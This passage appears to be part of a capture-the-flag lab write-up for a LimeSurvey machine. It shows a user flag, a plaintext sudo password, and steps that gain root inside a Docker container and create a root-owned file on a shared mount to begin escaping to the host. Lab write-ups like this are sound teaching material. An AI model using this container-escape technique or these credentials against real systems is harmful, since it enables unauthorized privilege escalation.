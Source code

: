 ```bash
```

User flag: `VL{426b3b0a5425049b64219e9aeff3aa48}`
```bash
limesvc@ip-10-10-200-233:~$ cat user.txt 
VL{426b3b0a5425049b64219e9aeff3aa48}
```


## Privilege Escalation
Whilst enumerating the filesystem, we find that in the opt directory there is a limesurvey folder that contains a lot of files. These are the same files we saw in the Docker container, perhaps these are linked?
```bash
limesvc@ip-10-10-200-233:/opt/limesurvey$ ls
LICENSE      assets       locale            psalm-all.xml     tmp
README.md    docs         modules           psalm-strict.xml  upload
SECURITY.md  gulpfile.js  node_modules      psalm.xml         vendor
admin        index.php    open-api-gen.php  setdebug.php
application  installer    plugins           themes
```

Become root in the Docker container.
```bash
$ sudo -Sl

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for limesvc: 5W5HN4K4GCXf9E
Matching Defaults entries for limesvc on efaa6f5097ed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin

User limesvc may run the following commands on efaa6f5097ed:
    (ALL : ALL) ALL
$ sudo su root
id
uid=0(root) gid=0(root) groups=0(root)
```

We create a file as root in the Docker container and list the files in our SSH session and see that the file is owned by root.
```bash
touch rootfile.txt
```
```bash
limesvc@ip-10-10-200-233:/opt/limesurvey$ ls -al | grep rootfile
-rw-r--r--   1 root    root        0 Jan 29 12:35 rootfile.txt
```
